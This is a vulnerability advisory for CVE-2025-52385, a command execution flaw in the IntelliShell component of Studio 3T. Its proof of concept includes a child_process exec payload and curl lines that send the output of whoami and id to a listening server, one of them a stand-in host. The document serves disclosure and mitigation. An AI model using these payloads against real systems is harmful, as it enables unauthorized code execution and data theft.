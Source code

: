 # CVE-2025-52385
**Software**: Studio 3T v.2025.1.0 

**Vulnerability Report**: Studio 3T Remote Command Execution

**Overview**
A critical vulnerability in Studio 3T version 2025.1.0 and earlier allows a remote attacker to execute arbitrary code via a crafted payload exploiting the child_process module in the IntelliShell component.

**Details**
**Vulnerability Type: Remote Command Execution**
Affected Product: Studio 3T, version <= 2025.1.0
Affected Component: IntelliShell
Attack Type: Remote
Impacts:
Code Execution: Yes
Denial of Service: Yes
Escalation of Privileges: Yes

**Description**
The vulnerability enables a remote attacker to execute arbitrary operating system commands by sending a malicious JavaScript payload through IntelliShell, leveraging the child_process module. This is a blind execution vulnerability, meaning no direct output is returned to the attacker.
Attack Vector

Establish a connection to a MongoDB instance.
Send a malicious JavaScript payload via IntelliShell that utilizes the child_process module to execute arbitrary operating system commands.

**Proof of Concept**
To verify the vulnerability, use the following steps:

Set up a local HTTP server:python3 -m http.server 80

Execute the following JavaScript payload in IntelliShell:const {exec} = require('child_process');
exec('curl 127.0.0.1/$(whoami)', (error, stdout, stderr) => console.log(stdout));


Alternatively, use the command below as a verification vector:curl http://site/$(id)
**References**

Studio 3T Official Website
Studio 3T GitHub Repository
CWE-78: OS Command Injection
CWE-94: Code Injection

**Mitigation**
Users: Upgrade to a patched version of Studio 3T (if available) or avoid using IntelliShell with untrusted MongoDB connections.
Vendors: Restrict or sanitize inputs to the child_process module in IntelliShell to prevent unauthorized command execution.

**Acknowledgments**
This vulnerability was discovered and reported by Kaio Mendonca Pereira.
